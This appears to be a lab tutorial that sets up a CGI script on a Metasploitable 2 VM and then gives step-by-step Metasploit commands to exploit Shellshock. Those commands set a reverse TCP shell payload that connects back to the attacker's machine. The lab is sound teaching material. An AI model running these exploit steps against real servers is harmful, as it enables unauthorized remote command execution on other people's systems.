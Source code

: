 # Hacking I (unprivileged permissions) 

## Todo 1: Prepare the target (metasploitable 2) 

```
# metasploitable 2 should be up and running 

# Step 1:

cd /usr/lib/cgi-bin
vi hello.sh
# --> content (#! /bin/bash will be the first line 

#! /bin/bash
echo "Content-type: text/html"
echo ""
echo "Hello world!"

# Step 2 (permissions)
chmod 755 hello.sh 

# Step 3 (test in browser of machine that can reach you metasploitable2 machine
http://192.168.10.x/cgi-bin/hello.sh 
```

## Todo 2: Proceed on kali 

```
# Connect through ssh or use desktop -> terminal as root
msfconsole 
msf>search shellshock 
msf>use exploit/multi/http/apache_mod_cgi_bash_env_exec
msf.....>options

# We need to set the path and the ip of the target (metaploitable 2) here.
msf.....>set rhost 192.168.10.198
msf.....>set targeturi /cgi-bin/hello.sh
targeturi => /cgi-bin/hello.sh

# Now we need to decide for a payload 
msf.....>show payloads 
msf.....>set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp

# let again check the options 
msf.....>options 

# IMPORTANT: If you have 2 network interfaces, you need to set the right one 
msf.....>set lhost 192.168.10.169

# now let's try if it would work 
msf....>check 

# now let's exploit
msf....>exploit

# Try to get some info now 
whoami 

# Yes, we are successful
```

## Ref: (normal privileges)

  * https://null-byte.wonderhowto.com/how-to/exploit-shellshock-web-server-using-metasploit-0186084/


